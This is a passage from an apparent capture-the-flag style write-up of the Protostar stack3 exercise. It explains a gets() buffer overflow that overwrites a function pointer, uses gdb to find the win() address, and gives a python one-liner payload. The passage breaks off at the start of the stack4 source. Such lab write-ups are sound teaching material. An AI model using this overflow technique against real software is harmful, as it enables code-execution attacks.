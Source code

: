 The gets(buffer) reads input into buffer. 

If the buffer overflow occurs when input exceeds 64 characters (buffer size), it will overwrite the value stored in the one which is adjacent to it , here in this case it is a function pointer fp

If we are able to overflow the adress of win() into the fp , The win() function will be called as mentioned in the code and we will be done with it

Let us use gdb to know the adress of the win function

> gdb ./stack3  
(gdb) p win

commands will display the location address of the win function stored in the memory

We will get " $1 = {void (void)} 0x8048424 \<win\> " as output indicating "0x8048424" as the memory address of the win function   

As we know protostar is a little endian, we need to append the 64 bytes string with '\\x24\\x84\\x04\\x08'

Similar to previous cases:

> python3 -c "print('x'\*64 + '\\x24\\x84\\x04\\x08')" | ./stack3

  

This command will output "code flow successfully changed".

  

## stack 4:

  

  

      SOURCE CODE:

        #include <stdlib.h>

        #include <unistd.h>

        #include <stdio.h>

        #include <string.h>

  

        void win()

        {

         printf("code flow successfully changed\\n");

        }

  

        int main(int argc, char \*\*argv)

        {

         char buffer\[64\];

  
